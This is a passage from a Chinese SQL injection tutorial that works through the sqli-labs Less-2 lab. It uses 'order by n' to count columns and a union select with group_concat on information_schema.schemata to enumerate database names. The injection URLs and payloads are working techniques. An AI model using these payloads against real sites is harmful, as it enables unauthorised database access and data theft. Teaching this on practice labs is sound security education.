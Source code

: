 为了让你更好地理解 SQL 注入漏洞的利用，我会一步步地构造注入参数去利用漏洞，直到最终拿到账号密码，这样在后面通过工具自动化利用时，你也能更容易地理解其背后的逻辑。

在注入的过程中，常用到的会有以下几个步骤：获取字段数、枚举系统数据库名、获取当前数据库名、枚举数据库中的表名、枚举表中的字段名、获取字段值、盲注猜解字符串。这些步骤并不是一定的，我只是列举了一些比较常用的，希望对你能有所帮助。

**（1）获取字段数**

在"第06讲"中我讲到了"**联合查询注入**"，我们使用 Union 查询注入爆出了账号和密码，但那是已知字段名的情况下。

在真实的漏洞利用场景中，我们需要自己通过 SQL 注入获取字段名，在此之前还得去获取字段数。前面使用的是 union select 1,2,3... 的方式不断追加查询的字段数来猜测，但如果业务就有很多的字段数，这个方法就有点烦琐了。因此，这里介绍另一种更加简便的方法。

通过 order 做字段排序，可以猜解出正确的字段数：

```sql
order by n   # 通过不断尝试 n 的值直到出错，那么正确字段数就是 n-1
```

这种方法有时会用来判断是否存在 SQL 注入漏洞，同时在使用联合查询方法时，也可以用来获取读取数据。

以 sqli-labs 第 2 题为例，构建以下两个不同的请求会发现返回结果是不一样的，当使用利用"1 order by 3"作为 id 参数时，其返回正常；但当使用"1 order by 4"时却返回错误了：

```sql
正常：http://localhost/Less-2?id=1 order by 3--+
错误：http://localhost/Less-2?id=1 order by 4--+，提示"Unknown column '4' in 'order clause'"
```

这就说明正确的字段数是 3，因为当用于排序的字段数大于总字段数时会出错。

**（2）枚举系统数据库名**

网站上可能会有多个数据库，为了更直接地查看包含业务数据的数据库，我们先枚举出系统的数据库名，然后根据数据库名来猜测有敏感信息的可能性，再针对那个数据库进行测试。

在版本号 5.0 以上的 MySQL 中，数据库名存放在 information_schema 数据库下的 schemata 表的 schema_name 字段中：

```sql
mysql> select null,null,schema_name from information_schema.schemata;
+------+------+--------------------+
| NULL | NULL | schema_name        |
+------+------+--------------------+
| NULL | NULL | information_schema |
| NULL | NULL | challenges         |
| NULL | NULL | mysql              |
| NULL | NULL | performance_schema |
| NULL | NULL | security           |
+------+------+--------------------+
5 rows in set (0.00 sec)
```

从第一步我们得知字段数是 3 个，那么我们就可以通过 select 读取这 3 个字段的内容。由于这里的测试题目，在网页上只显示 1 个字段值，所以我们可以用 group_concat 函数将所有的数据库名连接起来，一次性地将多个字段值放在一个字段中显示。这里我把它放在了第 3 个字段中：

```sql
http://localhost/Less-2/?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata
```

![图片8.png](https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7-qAIZdsAADRujoDa5o025.png)  
图 8： 系统数据库名
